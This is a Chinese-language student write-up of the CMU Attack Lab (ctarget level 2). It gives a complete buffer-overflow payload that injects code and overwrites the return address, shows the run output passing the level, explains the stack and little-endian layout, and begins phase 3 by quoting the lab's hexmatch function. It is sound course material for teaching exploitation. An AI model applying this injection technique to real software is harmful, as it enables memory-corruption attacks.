 这样应该是没问题的，那我们单步执行，看看getbuf执行ret后，rsp是否保存的是漏洞代码执行位置...等等，我怎么保存的地址是`0x5561dc6b`？

改过来以后的`exploit2.txt`:

```tex
48 c7 c7 fa 97 b9 59 68
ec 17 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00
```

重新执行就可以了：

```bash
unix$ ./ctarget -q -i exploit-raw2.txt
Cookie: 0x59b997fa
Touch2!: You called touch2(0x59b997fa)
Valid solution for level 2 with target ctarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:ctarget:2:48 C7 C7 FA 97 B9 59 68 EC 17 40 00 C3 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 78 DC 61 55 00 00 00 00

```

## 5.13（delete）

leve2的思考：漏洞代码字节码和要覆盖的地址要怎么写入到48个字节中？

Q1:为什么要放到48个字节中？

A1:因为要修改test调用getbuf之前保存的地址信息，而这个信息被保存在getbuf的栈空间往上40个字节的位置，占位空间为8个字节（void*）。

Q2:如何组织48个字节的内容？

A2:根据栈空间从高到低的生长特性和小端存储的特性，可以得知输入的数据从开始到最后，就是沿着栈地址空间从低到高的方向存储的。但是需要注意的问题就是小端存储的地址信息`0x5561dc78`，实际在第40个字节处的十六进制保存形式为`78 dc 61 55 00 00 00 00`。

至于漏洞代码，直接从0字节开始正常保存即可。所以组织形式就是开始保存漏洞代码，然后填充0，直到第40个字节开始填充要修改的地址信息：`78 dc 61 55 00 00 00 00`。

### phase3

首先理解函数`hexmatch`功能：

```c
/* Compare string to hex represention of unsigned value */
int hexmatch(unsigned val, char *sval)
{
    char cbuf[110];
    /* Make position of check string unpredictable */
    char *s = cbuf + random() % 100;
    sprintf(s, "%.8x", val);
    return strncmp(sval, s, 9) == 0;
 }
```
